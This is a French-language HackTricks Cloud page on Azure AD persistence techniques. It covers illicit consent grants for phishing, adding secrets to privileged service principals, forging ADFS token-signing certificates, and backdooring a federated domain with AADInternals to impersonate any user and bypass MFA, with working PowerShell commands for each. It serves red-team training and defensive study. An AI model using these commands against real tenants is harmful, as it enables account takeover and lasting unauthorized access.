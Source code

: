 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Octroi de consentement illicite

Par défaut, tout utilisateur peut enregistrer une application dans Azure AD. Vous pouvez donc enregistrer une application (uniquement pour le locataire cible) qui nécessite des autorisations à fort impact avec le consentement de l'administrateur (et l'approuver si vous êtes l'administrateur) - comme envoyer des mails au nom d'un utilisateur, gestion des rôles, etc. Cela nous permettra d'**exécuter des attaques de phishing** qui seraient très **fructueuses** en cas de succès.

De plus, vous pourriez également accepter cette application avec votre utilisateur comme moyen de maintenir l'accès.

### Applications et Principaux de Service

Avec les privilèges d'Administrateur d'Application, GA ou un rôle personnalisé avec des autorisations microsoft.directory/applications/credentials/update, nous pouvons ajouter des identifiants (secret ou certificat) à une application existante.

Il est possible de **cibler une application avec des autorisations élevées** ou **d'ajouter une nouvelle application** avec des autorisations élevées.

Un rôle intéressant à ajouter à l'application serait le **rôle d'administrateur d'authentification privilégiée** car il permet de **réinitialiser le mot de passe** des Administrateurs Globaux.

Cette technique permet également de **contourner la MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Pour l'authentification basée sur des certificats

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Fédération - Certificat de signature de jeton

Avec des **privileges DA** sur AD local, il est possible de créer et d'importer de **nouveaux certificats de signature de jeton** et de **décryptage de jeton** qui ont une très longue validité. Cela nous permettra de **nous connecter en tant que n'importe quel utilisateur** dont nous connaissons l'ImuutableID.

**Exécutez** la commande ci-dessous en tant que **DA sur le(s) serveur(s) ADFS** pour créer de nouveaux certificats (mot de passe par défaut 'AADInternals'), les ajouter à ADFS, désactiver le renouvellement automatique et redémarrer le service :
```powershell
New-AADIntADFSSelfSignedCertificates
```
Ensuite, mettez à jour les informations du certificat avec Azure AD :
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Fédération - Domaine de confiance

Avec des privilèges GA sur un locataire, il est possible d'**ajouter un nouveau domaine** (doit être vérifié), de configurer son type d'authentification sur Fédéré et de configurer le domaine pour **faire confiance à un certificat spécifique** (any.sts dans la commande ci-dessous) et à l'émetteur :
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Références

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

